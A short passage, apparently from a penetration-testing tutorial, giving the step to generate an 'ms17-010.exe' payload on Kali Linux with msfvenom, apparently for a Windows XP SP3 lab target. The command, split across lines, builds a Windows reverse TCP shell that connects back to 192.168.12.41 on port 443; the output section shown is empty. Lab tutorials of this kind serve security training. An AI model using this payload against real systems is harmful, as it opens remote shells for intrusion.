

3.2 Generarte the payload
Let's generate a payloadd called “ms17-010.exe” with “msfvenom”.
In your Kali Linux Machine go to the directory “winxpsp3” and run the following.
$msfvenom
-p windows
/
shell_reverse_tcp LHOST=192.168.12.41 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe
Output:

Index